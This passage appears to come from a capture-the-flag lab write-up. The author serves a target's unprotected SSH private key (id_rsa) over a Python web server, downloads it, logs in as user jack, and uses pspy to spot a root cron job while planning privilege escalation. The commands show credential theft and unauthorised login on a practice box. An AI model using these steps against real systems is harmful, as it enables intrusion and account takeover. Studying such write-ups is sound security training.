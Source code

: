 Interstingly, all interesting files have been properly protected but `id_rsa` which I suspect to be jack's SSH private key. As `python3` is installed on the server, let's make the file available to us as a python web server:

~~~
$ /usr/bin/python3 -m http.server
~~~

Now, we can download `id_rsa` by connecting to http://10.10.148.86:8000.

Let's check if we can connect as `jack`:

~~~
$ chmod 600 id_rsa
$ ssh -i id_rsa jack@10.10.148.86
~~~

Great! We are now connected as Jack. Let's find a way to elevate our privileges. Standard enumeration tools like `linpeas.sh` are great, but there is a great tool called `pspy` that will be particularly handy in our case.

Using `pspy`, we can notice that there is a cron job running every 2 minutes:

~~~
2020/06/18 09:50:01 CMD: UID=0    PID=27131  | /usr/bin/python /opt/statuscheck/checker.py 
2020/06/18 09:50:01 CMD: UID=0    PID=27130  | /bin/sh -c /usr/bin/python /opt/statuscheck/checker.py 
2020/06/18 09:50:01 CMD: UID=0    PID=27129  | /usr/sbin/CRON -f 
2020/06/18 09:50:01 CMD: UID=0    PID=27133  | sh -c /usr/bin/curl -s -I http://127.0.0.1 >> /opt/statuscheck/output.log 
2020/06/18 09:50:01 CMD: UID=0    PID=27132  | sh -c /usr/bin/curl -s -I http://127.0.0.1 >> /opt/statuscheck/output.log 
2020/06/18 09:52:01 CMD: UID=0    PID=27137  | /usr/bin/python /opt/statuscheck/checker.py 
2020/06/18 09:52:01 CMD: UID=0    PID=27136  | /bin/sh -c /usr/bin/python /opt/statuscheck/checker.py 
2020/06/18 09:52:01 CMD: UID=0    PID=27135  | /usr/sbin/CRON -f 
2020/06/18 09:52:01 CMD: UID=0    PID=27139  | /usr/bin/curl -s -I http://127.0.0.1 
2020/06/18 09:52:01 CMD: UID=0    PID=27138  | sh -c /usr/bin/curl -s -I http://127.0.0.1 >> /opt/statuscheck/output.log 
2020/06/18 09:54:01 CMD: UID=0    PID=27143  | /usr/bin/python /opt/statuscheck/checker.py 
2020/06/18 09:54:01 CMD: UID=0    PID=27142  | /bin/sh -c /usr/bin/python /opt/statuscheck/checker.py 
2020/06/18 09:54:01 CMD: UID=0    PID=27141  | /usr/sbin/CRON -f 
2020/06/18 09:54:01 CMD: UID=0    PID=27144  | /usr/bin/python /opt/statuscheck/checker.py 
2020/06/18 09:54:01 CMD: UID=0    PID=27145  | sh -c /usr/bin/curl -s -I http://127.0.0.1 >> /opt/statuscheck/output.log 
~~~

The script is owned by `root` and we don't have write access to it:

~~~
jack@jack:/opt/statuscheck$ ls -la
total 48
drwxr-xr-x 2 root root  4096 Jan 10 18:34 .
drwxr-xr-x 3 root root  4096 Jan 10 09:50 ..
-rw-r--r-- 1 root root    92 Jan 10 10:10 checker.py
-rw-r--r-- 1 root root 30096 Jun 18 10:14 output.log
~~~
